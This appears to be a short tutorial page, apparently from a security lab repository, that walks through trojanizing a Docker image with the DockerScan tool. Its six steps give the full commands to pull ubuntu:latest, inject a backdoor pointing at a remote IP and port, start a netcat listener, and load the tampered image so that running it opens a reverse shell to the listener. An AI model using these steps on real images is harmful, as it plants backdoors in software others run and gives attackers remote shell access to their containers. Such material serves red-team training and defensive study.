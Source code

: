# **`Trojanize Docker - DockerScan`**


Step 1: Pull and save an image (`ubuntu:latest`) that is to be trojanized.
 
        docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-latest

![](img/trojan-docker-1.png)


Step 2: Fetch VM IP by running ifconfig

![](img/trojan-docker-2.png)


Step 3: Trojanize the saved docker file by running `dockerscan image modify trojanize ubuntu-latest -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-latest-trojanized`. It will create a `.tar` file.

![](img/trojan-docker-3.png)

 
Step 4: Once the command on Step 3 has been run, a `netcat` command is returned. Copy and paste the command in another tab.

![](img/trojan-docker-4.png)


Step 5: Load the trojanized docker `.tar` file by running `docker load -i ubuntu-latest-trojanized.tar`

![](img/trojan-docker-5.png)


Step 6: When the trojanized docker is run, the listener should have reverse-shell access to the container

![](img/trojan-docker-6.png)

